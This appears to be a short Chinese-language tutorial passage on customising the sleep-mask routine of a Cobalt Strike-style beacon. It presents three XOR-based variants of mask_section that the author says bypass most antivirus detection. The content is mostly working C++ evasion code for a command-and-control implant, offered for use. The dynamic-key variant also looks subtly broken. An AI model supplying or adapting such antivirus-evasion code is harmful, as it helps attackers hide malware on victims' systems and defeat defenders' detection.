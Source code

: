 ```cpp
   DWORD a, b;

   /* walk our sections and mask them */
   index = parms->sections;
   while (TRUE) {
      a = *index; b = *(index + 1);
      index += 2;
      if (a == 0 && b == 0)
         break;

      mask_section(parms, a, b);
   }
}
```



通过修改mask_section函数的异或加密形式，一般可以绕过绝大多数杀软的检测，前提是mask_section函数可以同时用于加密和解密，下面我介绍三种异或加密的变体形式：

```cpp
// 如下代码每隔一个字节进行异或加密

void mask_section(SLEEPMASKP * parms, DWORD a, DWORD b) {
    while (a < b) {
        // 只有当 a 是偶数时才执行异或操作，这样可以确保每两个字节进行一次异或操作
        if (a % 2 == 0) {
            *(parms->beacon_ptr + a) ^= parms->mask[a % MASK_SIZE];
        }
        a++;
    }
}
```

```cpp
//根据字节的位置来动态生成密钥

void mask_section(SLEEPMASKP* parms, DWORD a, DWORD b) {
    while (a < b) {
        BYTE dynamic_key = (a * 37) & MASK_SIZE; // simple example of dynamic key generation
        *(parms->beacon_ptr + a) ^= dynamic_key;
        a++;
    }
}
```

```cpp
//异或加密结合自反运算，比如NOT运算

void mask_section(SLEEPMASKP * parms, DWORD a, DWORD b) {
   while (a < b) {
      *(parms->beacon_ptr + a) ^= parms->mask[a % MASK_SIZE];
      *(parms->beacon_ptr + a) = ~(*(parms->beacon_ptr + a));  // bitwise NOT
      a++;
   }
}
```
